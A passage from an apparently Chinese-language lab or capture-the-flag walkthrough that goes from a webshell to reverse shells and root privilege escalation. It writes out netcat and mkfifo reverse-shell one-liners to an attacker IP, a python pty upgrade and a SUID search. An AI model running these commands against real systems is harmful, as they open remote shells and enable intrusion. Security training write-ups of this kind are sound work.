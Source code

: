 蚁剑终端上nc反弹：（-e参数不可用）  
```
nc -e /bin/bash 192.168.2.136 7777
```  
```

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWl6mQZdcomhubfMcP0OxXs88wmgbZibRhCpUgg0YHFzyJ1sia0wsaRzCzw/640?wx_fmt=png&from=appmsg "")  
  
```
rm /tmp/f              #rm  删除文件 因为要保证没有/tmp/f 这个文件
mkfifo /tmp/f          #mkfifo ：创建一个FIFO特殊文件，是一个命名管道（可以用来做进程之间通信的桥梁）
cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.2.129 7777 >/tmp/f
```  
```

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlVVicFTxIePwmhKHau9kwMb1Kr6NACppgTjnWN8dMTbGImzaiaEKQjakA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlTeJLvL1UXbZ0bK8TL46g2IKyG3DJASqFZQaWlsLPUdk2JowAPKdeaw/640?wx_fmt=png&from=appmsg "")  
  
  
#### 反弹shell成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlYu5ao2DHaEUNVSPMnDoNkrLHwOzyTdzDjCreDlqBQmwxCHOLolGk0A/640?wx_fmt=png&from=appmsg "")  
  
### 提权到root  
  
了当我们反弹shell后要提高权限才能成为root账户  
  
先进入交互式shell  
```
python -c 'import pty;pty.spawn("/bin/bash")'
```  
####   
#### 命令提权  
  
一般先考虑sudo和suid提权，先find一下看看哪些命令可以用，发现sudo能用  
```
find / -perm -u=s 2>null
```  
```

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlLBLaLUWBkwcdL6Cy0mam65gTzjLhlnREotLm49KAe1LNRZ6icORWKvA/640?wx_fmt=png&from=appmsg "")  
  
  
  
sudo -l提权发现需要密码，但是试了一下密码snoopy，不对  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlQqWmVUEvq19OhWdRq7CxcDibuMb6jOfPvadJGFNFeOIhAKPvwlTgbGw/640?wx_fmt=png&from=appmsg "")  
  
  